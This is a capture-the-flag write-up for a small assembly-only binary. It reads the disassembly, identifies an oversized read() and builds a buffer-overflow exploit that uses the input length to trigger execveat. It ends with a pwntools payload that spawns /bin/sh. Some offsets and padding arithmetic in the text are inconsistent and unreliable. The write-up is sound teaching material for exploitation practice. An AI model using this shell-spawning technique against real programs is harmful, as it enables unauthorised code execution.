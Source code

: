 # End

There is no `end.c` for us to see, so the only thing we can do is to `objdump` the disassembly code:

    Disassembly of section .text:

    00000000004000b0 <_start>:
      4000b0:	48 31 c0             	xor    %rax,%rax
      4000b3:	48 31 db             	xor    %rbx,%rbx
      4000b6:	48 31 c9             	xor    %rcx,%rcx
      4000b9:	48 31 d2             	xor    %rdx,%rdx
      4000bc:	48 31 ff             	xor    %rdi,%rdi
      4000bf:	48 31 f6             	xor    %rsi,%rsi
      4000c2:	4d 31 c0             	xor    %r8,%r8
      4000c5:	4d 31 c9             	xor    %r9,%r9
      4000c8:	4d 31 d2             	xor    %r10,%r10
      4000cb:	4d 31 db             	xor    %r11,%r11
      4000ce:	4d 31 e4             	xor    %r12,%r12
      4000d1:	4d 31 ed             	xor    %r13,%r13
      4000d4:	4d 31 f6             	xor    %r14,%r14
      4000d7:	4d 31 ff             	xor    %r15,%r15
      4000da:	48 31 ed             	xor    %rbp,%rbp
      4000dd:	e8 10 00 00 00       	callq  4000f2 <_end>
      4000e2:	b8 3c 00 00 00       	mov    $0x3c,%eax
      4000e7:	48 31 ff             	xor    %rdi,%rdi
      4000ea:	48 31 f6             	xor    %rsi,%rsi
      4000ed:	48 31 d2             	xor    %rdx,%rdx
      4000f0:	0f 05                	syscall 

    00000000004000f2 <_end>:
      4000f2:	48 81 ec 28 01 00 00 	sub    $0x128,%rsp
      4000f9:	48 89 e6             	mov    %rsp,%rsi
      4000fc:	ba 48 01 00 00       	mov    $0x148,%edx
      400101:	0f 05                	syscall 
      400103:	48 81 c4 28 01 00 00 	add    $0x128,%rsp
      40010a:	c3                   	retq   
      
 Wow....this problem is a pure assembly code problem.
  
 Everything is `xor`ed in the beginning so, all of them are 0.
  
 After every register is zeroed, it calls `end`.
  
 What `end` does is :
  
    * rsp = rsp - 0x128
    * rsi = rsp - 0x128
    * edx = rdx = 0x148
    * sycall
 
And we can see `rax = 0` and `rdi = 0`, so `end` is a system call for `read()`.
 
    end() = read(0, rsp - 0x128, 0x148)
    
This is definitely a buffer overflow question.
 
However, what can we do? I tried a lot to overflow, such as jumping back to read again, but failed.
 
Then, when staring at `gdb-peda`, I found something interesting:
 
   rax = the length of input string
   
So, I tried to control the length to 59 to call `sys_execve` but still failed, since `/bin/sh\0` is not in rdi.
 
After that, I thought of: Maybe the input size is the key to solving this problem.
 
And.....vola! It is indeed!
 
First 0x128 + 8 = 0x130 and 0x140 is our range of overflow. Converting them into decimal, they and 304 and 336. So, let's take a look at system call table at that range.
 
   ![end](end.jpg)
   
This look really alike `execve` so maybe this is it.

After reading the `execveat manual`, I found this:

   ![end2](end2.jpg)
   
So, since what we are entering is `/bin/sh\0` , an abosulute directory, `dfd` is ignored. This means, rdi is ignored and all we have to do is put `/bin/sh\0` in rsi.

Of course, it is easy since rsi is the starting point of the user input. Therefore our payload will begin with `/bin/sh\0` then follow up with a padding of 304 - 17 = 287 bytes. 

    *   NOTE: rdx must be cleared since it is a parameter for `execveat` and in case of error.
    
Seeing the note I wrote, yes, we need to zero out rdx. We can find the method at `0x400ed: xor rdx, rdx` and this will be our return address.

Finally, our payload will be:

```python
   p.sendline(b"/bin//sh\x00" + b"\x90"*287 + p64(0x4000ed) + b"\x90"*17)
```

